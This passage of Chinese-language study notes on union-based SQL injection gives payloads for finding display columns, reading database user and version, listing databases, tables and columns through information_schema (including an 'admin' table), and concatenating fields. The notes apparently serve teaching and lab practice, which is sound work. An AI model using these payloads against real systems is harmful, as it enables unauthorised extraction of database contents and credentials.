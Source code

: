 ##### c. 判断显示位

```
1' union select 1,2 -- 123
-1' union select 1,2 -- 123		//使用-1来使union前半语句无查询返回值
```

##### d. 查看数据库信息

```
user()	//返回当前使用数据库的用户
version()	//返回当前数据库版本
database()	//返回当前使用的数据库名
```

##### e. 查看表及列名

* 系统内置**数据库information_schema**，存储其他所有数据库信息

* ```
  schema表: 存放所有数据库，类似于show databases;
  tables表: 存储数据库中的表信息
  columns表: 存储表中的列信息，包括表有多少列
  ```

* ```
  //显示所有数据库的信息并显示数据库名
  -1' union select schema_name,2 from information_schema.schemata -- qwe
  
  -1' union select database(),2#
  
  //获取数据库为liuyanban的所有表信息并显示表名
  -1' union select table_name,2 from information_schema.tables where table_schema = 'liuyanban'  -- qwe
  
  //选取数据库为liuyanban，表为liuyan的所有字段并显示表名和字段名
  -1' union select table_name,column_name from information_schema.columns where table_schema='liuyanban' and table_name='liuyan' -- qwe
  
  -1' union select table_name,column_name from information_schema.columns where table_schema='stu_manage' and table_name='admin' -- qwe
  ```

##### f. 字符串拼接

##### g. 常用函数

1. concat()

   * 将多个字符串链接成为一个字符串

   ```
   -1' union select 1,concat(id,email_id),3 from emails --+
   ```
